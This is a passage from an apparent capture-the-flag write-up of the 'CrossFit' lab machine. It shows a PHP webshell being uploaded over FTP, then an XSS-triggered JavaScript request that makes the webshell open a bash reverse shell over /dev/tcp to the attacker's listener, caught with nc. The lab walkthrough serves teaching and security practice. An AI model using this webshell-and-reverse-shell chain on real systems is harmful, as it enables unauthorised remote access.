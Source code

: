 That is fixed by setting the SSL verification to false:

    
    
    lftp 0xdf@ftp.crossfit.htb:~> set ssl:verify-certificate false
    

Now I can list the FTP root:

    
    
    lftp 0xdf@ftp.crossfit.htb:~> ls
    drwxrwxr-x    2 33       1002         4096 Sep 21 09:45 development-test
    drwxr-xr-x   13 0        0            4096 May 07  2020 ftp
    drwxr-xr-x    9 0        0            4096 May 12  2020 gym-club
    drwxr-xr-x    2 0        0            4096 May 01  2020 html
    

It looks like I’m in `/var/www`, where `html` is the folder with the Apache
default, `ftp` is the site I registered this account on, and `gym-club` is the
main page. `development-test` is a new one.

### Webshell

I’ll upload a webshell over FTP:

    
    
    lftp 0xdf@ftp.crossfit.htb:/development-test> put /opt/shells/php/cmd.php
    35 bytes transferred                                           
    lftp 0xdf@ftp.crossfit.htb:/development-test> ls
    -rw-r--r--    1 1002     1002           35 Jan 26 18:39 cmd.php
    

Unfortunately, I can’t reach it. I wonder if it’s only available from inside
just like FTP? The JavaScript is simple, just one request:

    
    
    var req = new XMLHttpRequest();
    req.open("GET", "http://development-test.crossfit.htb/cmd.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.11/443+0>%261'", false);
    req.send()
    

I’ll send the XSS request to trigger it, see it requested from Python
webserver, and a shell arrives at `nc`:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.208.
    Ncat: Connection from 10.10.10.208:35308.
    bash: cannot set terminal process group (695): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@crossfit:/var/www/development-test$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

I’ll upgrade my shell:
